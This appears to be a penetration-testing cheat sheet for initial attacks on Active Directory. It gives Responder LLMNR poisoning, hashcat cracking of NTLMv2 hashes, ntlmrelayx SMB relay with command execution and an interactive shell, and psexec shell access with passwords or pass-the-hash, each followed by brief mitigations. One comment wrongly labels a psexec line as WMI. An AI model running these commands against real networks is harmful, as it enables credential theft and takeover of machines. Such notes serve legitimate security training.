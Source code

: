 # AD Initial attack vector

## LLMNR poisoning

<figure><img src=".gitbook/assets/Capture d&#x27;écran 2024-05-06 003240.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface> -dwPv
# crack hash 
hashcat -m 5600 <hash.txt> <wordlist>
```

### Mitigation

```
# Disable LLMNR
# Disable NBT-NS


#If we can't disable
# Require network access control
# Require strong password policy

```

## SMB Relay

* SMB Signing disabled on target

```bash
nmap --script=smb2-security-mode.nse -p445 <ip>/24
# work if message signing is enabled but not required
# In /etc/responder/Responder.conf disable smb and http -> Not capture its but relay its

# create target.txt and put ip addresses

responder -I <interface> -dwPv 

# ntmrelayx for relay hash
sudo ntlmrelayx.py -tf targets.txt -smb2support
# after intercepted
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
# Interactive mode ( connect with netcat after that)
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

```

### Mitigation&#x20;

* Enable smb signing on all devices
* Disable ntlm auth on network
* Account tiering
* Local administration&#x20;

## Gaining shell access

```
use exploit/windows/smb/psexec
set RHOSTS <rhost>
set SMBDomain <domain>
set SMBUser <user>
set SMBPass <pass>
```

Use psexec.py

```
psexec.py <domain>/<user>:'<pass>'@<ip>

```

Or Use hash&#x20;

```
psexec.py <user>@<ip>--hashes [LM-HASH]:[NTLM-HASH]
# with wmi
psexec.py <user>@<ip> --hashes [LM-HASH]:[NTLM-HASH]

```
